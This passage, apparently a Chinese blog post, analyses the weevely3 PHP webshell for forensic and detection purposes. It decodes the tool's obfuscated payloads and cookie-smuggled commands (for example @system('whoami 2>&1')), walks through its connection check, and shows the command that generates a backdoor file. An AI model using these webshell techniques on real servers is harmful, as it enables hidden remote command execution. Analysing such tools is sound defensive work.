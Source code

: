 	obfuscated_payload = base64.urlsafe_b64encode(utils.strings.sxor(zlib.compress(payload),self.shared_key)).rstrip('=')

可以对算法进行逆向解密（先base64解密，shared_key异或，zip解压缩）可得算法为：<code> zlib.decompress(utils.strings.sxor(base64.urlsafe_b64dncode(payload), shared_key))</code>,由于payload进行加密时通过rstrip('=')把等于号全部删除掉了，所以在进行解密时当算法出错时可以向字符串末尾添加"="号结合算法进行解密，函数通过算法解密后可得到攻击载荷为："chdir('/var/www/html');@system('whoami 2>&1')；"。
#### 5.1.5&emsp;响应体数据分析 ####
&emsp;&emsp;&emsp;通过对数据包的提取，我们可以看到weevely的具体响应内容在响应体中显示：<br><code><5d41402a>TfgfHhvnfygZLdAzNCHtYgI=</5d41402a></code>。

1. 观察可见具体的回显数据被封装在<code><5d41402a></5d41402a></code>标签中，而标签里的内容为"5d41402a"，这个数据的由来是后门php文件连接密码"hello"通过<code>shared_key = hashlib.md5(password).hexdigest().lower()[:8]</code>这个函数进行MD5加密然后取前8位。
2. 具体回显内容为"TfgfHhvnfygZLdAzNCHtYgI=",该加密字符串主要的加密方式为先进行zip压缩后和shared_key做异或运算，然后再进行base64编码，通过算法<code>decompress(utils.strings.sxor(base64.b64decode(response_body), shared_key))</code>进行解密运算，得到命令"whoami"的执行结果："www-data"。

### 5.2&emsp;weevely数据包(legacycookie模块)分析 ###
#### 5.2.1&emsp;legacycookie_php.tpl模板数据包解密payload ####
1. legacycookie_php.tpl模板如图3.1所示：

![weevely]({{ '/styles/images/weevely/cookie_php.png' | prepend: site.baseurl  }})

<center>图 3.1 </center><br>通过模板的php代码可以知道，用这个模板进行攻击的payload主要的加密方式为base64编码加密，所以payload只需要进行base64解码即可。
2. payload片段分别放在Cookie字段中存储，通过代码<code>self.default_prefixes = ["ID", "SID", "APISID","USRID", "SESSID", "SESS","SSID", "USR", "PREF"]</code>可知，Cookie中的USR，APISID等字符串主要从该数组中随机取出。
3. 
		additional_headers.append(('Cookie', '%s=%s;%s %s' % (prefixes.pop(),self.password[:2],additional_cookie if additional_cookie else '',cookie_payload_string)))

代码中可以看到构造的Cookie第一个字符串是"self.password[:2]"即密码的前两位，后面的即为真正的payload，所以我们可以直接把payload进行拼接，然后手工去掉特殊字符，再进行base64解密就可以得到完整的payload。从数据包中提取的payload为`Y2hkaXIoJy92YXIvd3d3L2h0bWwnKTtAc3lzdGVtKCd3aG9hbWkgMj4mMScpOw==`进行base64解码后得到真正的payload为`chdir('/var/www/html');@system('whoami 2>&1');`

#### 5.2.2&emsp;响应体分析 ####
&emsp;&emsp;&emsp;使用legacycookie_php.tpl模板的php后门文件抓取的数据包响应体为明文数据，可以通过观察直观的看到我们攻击命令的回应信息。回应信息主要放在<code><font>\<llo>\</llo></font></code>标签中。而标签中的内容"llo"通过跟踪代码` $k="${password[2:]}";echo "<$k>";echo "</$k>";`可以知道"llo"为是php文件密码从第三个字符一直取到末尾得到。
## 6&emsp;weevely验证机制分析 ##
### 6.1&emsp;源码分析 ###
&emsp;&emsp;&emsp;当生成的php文件是以stegaref_php.tpl文件为模板时，当我们在连接时的命令行中输入任意命运就可以触发**php.py**文件中的**_check_interpreter()**函数，_check_interpreter()函数主要功能是随机生成一个命令，"echo"一个从11111到99999大小的随机整数，然后分别调用channels文件夹下的channel.py文件中的"send()"函数，然后在send()函数中把payload分别发送给legacycookie.py，legacyreferrer.py和stegaref.py三个Python文件中的"send()"函数同时返回Response，code，error的值，<code> response, code, error = channel.send(command)</code>,通过对返回的Response和构造的echo的随机数是否相等来进行判断PHP shell能否直接运行，同时判断连接是否成功。
### 6.2&emsp;PHP(stegaref_php.tpl模板)后门文件分析 ###
&emsp;&emsp;&emsp;首先，当我们使用命令：<code><font color=red>weevely generate hello /var/www/html/testformd.php</font></code>来生成木马文件时，会调用generate()函数来生成木马。

1. generate()函数在weevely3-master/core/generate.py文件中，函数原型为：<code>def generate(password, obfuscator = 'obfusc1_php', agent = 'stegaref_php'):</code>其中，password为用户指定的密码， obfuscator是使用的webshell模糊变换模板，agent为webshell的模板，后两个参数均可自己定义，用户可以自己编写自定义的模板放入weevely3-master/bd/obfuscator/和weevely3-master/bd/agent/目录下，然后命令中指定自定义的模板。
2. <code>agent = Template(open(agent_path,'r').read()).render(password=password)</code>render agent模板文件，得到原始的webshell。webshell源码通过pycharm debug出来，生成的源码为:<br>
        $kh="5d41";
		$kf="402a";
